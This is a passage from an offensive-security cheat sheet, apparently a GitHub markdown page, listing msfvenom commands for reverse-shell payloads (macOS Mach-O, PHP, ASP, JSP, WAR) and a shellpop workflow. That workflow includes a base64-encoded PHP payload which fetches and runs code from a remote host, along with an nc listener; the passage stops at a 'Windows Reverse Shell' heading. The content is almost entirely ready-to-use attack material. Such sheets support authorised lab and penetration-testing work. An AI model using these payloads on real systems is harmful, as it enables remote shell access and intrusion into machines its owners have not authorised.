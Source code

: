 	Mac
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho


## Web Payloads

### msfvenom

	PHP
	msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
	cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

	ASP
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.152 LPORT=4444 -f asp > shell.asp

	JSP
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

	WAR
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

### Shellpop

#### Linux PHP

Use shellpop to create a reverse shell with a python stager

    # shellpop --payload linux/reverse/tcp/php --host tun0 --port 4444 --handler --base64 --stager http

Copy the generated code into our exploit

    payload = "<?php echo shell_exec('echo cHl0aG9uIC1jICJmcm9tIHJlcXVlc3RzIGltcG9ydCBnZXQ7aW1wb3J0IG9zO29zLnN5c3RlbShnZXQoJ2h0dHA6Ly8xOTIuMTY4LjExOS4xNTI6ODAvRHJkclhhaFknKS50ZXh0KSIg|base64 -d|/bin/bash') ?>"

Listen locally on port 4444:	

    # nc -nlvp 4444

Run the exploit to invoke the payload and have the target connect back to you on port 4444

If you uploaded the payload, call it with curl or alternative

## Scripting Payloads

### Windows Reverse Shell
